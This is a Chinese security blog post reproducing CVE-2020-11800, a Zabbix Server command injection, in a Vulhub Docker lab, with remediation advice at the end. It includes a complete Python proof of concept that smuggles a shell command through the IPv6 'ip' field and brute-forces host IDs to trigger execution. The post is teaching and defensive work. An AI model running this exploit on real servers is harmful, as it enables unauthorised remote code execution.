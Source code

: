 #  CVE-2020-11800 Zabbix 命令注入漏洞复现   
 海狼风暴团队   2025-06-04 09:48  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞简述**  
  
  
Zabbix Server的Trapper Command功能存在代码执行漏洞，攻击者可通过 IPv6 进行绕过并注入任意命令，导致远程代码执行。  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**受影响版本**  
  
  
Zabbix 3.0.x~3.0.30  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
# 知识扩展  
  
  
  
Zabbix 是由 Alexei Vladishev 开发的网络监控系统，采用 Server-Client 架构，支持实时监控、报警机制、性能统计和数据可视化，用于保障服务器安全运营并快速定位问题。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  
  
  
  
  
  
**漏洞环境搭建**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞环境搭建**  
  
  
**漏洞环境搭建**  
  
  
1.克隆 VulHub 仓库到本地  
```
git clone https://bgithub.xyz/vulhub/vulhub.git
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibATRa7yqFTQTeYAWaz3icPicvicfrnSvjm1vURtxiapHR8eSb2U52RyXBhA/640?wx_fmt=png&from=appmsg "")  
  
2. 进入到vulhub的目录  
```
cd vulhub/zabbix/CVE-2020-11800
docker-compose up -d
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqdGWbVJksPRI5iaiakXlLGoBwwdeaxsIGUsLMibeNWT8MXJV3nGriaA9LXPQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqdWChMF0O9GJugXTiaicTDjsmjQdsiaTQpjUQfCbXXdEEqJU3TrMpYUJk0w/640?wx_fmt=png&from=appmsg "")  
  
  
3.在靶机对Zabbix进行配置，登录页面默认账号密码admin/zabbix，输入后，登录成功。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqdiakHsfG6fwMs4Ih4ao1fqgyto0nSgbUFrGialQHE2CIdXuPCUTaQSkIw/640?wx_fmt=png&from=appmsg "")  
  
  
4.本漏洞的前提条件是Zabbix开启自动注册功能，下面在靶机进行配置。  
  
进入Configuration->Actions后，选择Auto registration，点击Create action  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqdxemZXlXTzfahp6PKv48Dia8YmXqibbwDia4U11zQvATibfqHIpdVtF8wNA/640?wx_fmt=png&from=appmsg "")  
  
  
name随便输入  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqd2eVnjYTSWyGHJicg73sZto9WmibzrXFnOBE2EBuSROsSbkH693tiaib5ibw/640?wx_fmt=png&from=appmsg "")  
  
进入Operations，type选择Add Host，然后点击Add添加，再点击Add保存。  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqdQREJpsk7XVaY2IyDOHBUHfKdDicl1lyS660XRPUxS5tmkMhcIB5accA/640?wx_fmt=png&from=appmsg "")  
  
  
5.至此，靶机漏洞环境搭建完毕。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞验证**  
  
1. 利用互联网公开POC攻击:  
  
```
python 1.py 192.168.23.17
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqdgWeZHFgfDQicibJ1cR0ibfr2Nw7aAkpUTOAGf8qiaedgcJKeDkibIuNs4TA/640?wx_fmt=png&from=appmsg "")  
  
```
import sys
import socket
import json
import sys
def send(ip, data):
    conn=socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data=conn.recv(2048)
    conn.close()
    return data
target=sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data=send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed'not in data:
        print('hostid: %d'%i)
        print(data)
```  
  
  
2.在靶机进行查看，发现/tmp目录下success2文件已经成功写入。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqdLPMHv6NhW21JSHTacm7Y3icatJyhVrPNMX1293ELpk2zibQJ0MWwYoLA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
**修复建议**  
  
  
1.升级Zabbix至最新版本；  
  
2.关闭自动注册功能：  
  
进入 Configuration -> Actions。找到与Auto registration相关的Action，将其禁用或删除。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqdCmqgTlibniboI9eFs2psr6wIiaQDvqpRz1pektmgM4ldiatRnpZNlDSWoQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqdgCCRfcwjwNqmncH5NWfKdNyzP5dYwHfxcic5RGhQRWdRbBVXibm5Z4Lw/640?wx_fmt=png&from=appmsg "")  
  
再利用脚本进行攻击：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgibwBXcUbBeRmFgOacnibasqduWAl1wjNLVWAe0ghCLiaWRBsOJK9uJGNI7iaCZYy9konfRAAATEPic89g/640?wx_fmt=png&from=appmsg "")  
  
可以看出来有效防御攻击。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicdEhoEJpMqYYsP1E4bdjOibkAbcxIic2nhMdD4Y13qdEfUZibRTDvqkaQxUyOjiboJuicOB6R4z0rXPqA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicyK2l6sBbOia5wH5EwBiah4b8FiazcPnWoUwjVwhSmc8lNeib3HjMTM7t0fhtMK2z1Ascmib43KO9ibKlA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/WDYXfeKIYgicyK2l6sBbOia5wH5EwBiah4brzc4jKudCwzrLBkS3hDozqGufm3H1Za9VXuNGjGwscBhYnuyxAc05g/640?wx_fmt=jpeg&from=appmsg "undefined")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WDYXfeKIYgicyK2l6sBbOia5wH5EwBiah4b8FiazcPnWoUwjVwhSmc8lNeib3HjMTM7t0fhtMK2z1Ascmib43KO9ibKlA/640?wx_fmt=png&from=appmsg "")  
  
**- 扫码立即关注 -**  
  
                             
  
